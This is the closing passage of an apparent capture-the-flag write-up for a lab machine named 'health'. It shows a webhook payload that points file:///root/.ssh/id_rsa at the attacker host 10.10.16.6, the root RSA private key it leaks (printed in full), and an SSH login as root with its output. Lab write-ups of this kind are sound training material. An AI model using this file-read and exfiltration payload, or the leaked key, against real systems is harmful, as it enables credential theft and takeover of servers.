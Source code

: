 ```bash
{"webhookUrl":"http:\/\/10.10.16.6\/","monitoredUrl":"file:\/\/\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```

now we save the file as `root_rsa`, take care of the permission with `chmod 600 root_rsa`

as log in as the root user and get the flag

```bash
➜  ssh root@10.10.11.176 -i root_id_rsa
The authenticity of host '10.10.11.176 (10.10.11.176)' can't be established.
ED25519 key fingerprint is SHA256:K0WrmjTWDZhl/D/mYbJSv/cBLF1Jnx0T2auXQQDc7/Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.176' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-191-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 10:18:22 UTC 2023

  System load:  0.0               Processes:           181
  Usage of /:   66.5% of 3.84GB   Users logged in:     1
  Memory usage: 15%               IP address for eth0: 10.10.11.176
  Swap usage:   0%

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jan  7 10:18:07 2023 from 10.10.16.6
root@health:~# whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
health
```

Ohh man what a box once again, Hope you enjoyed and learned as I did.

### Happy hacking !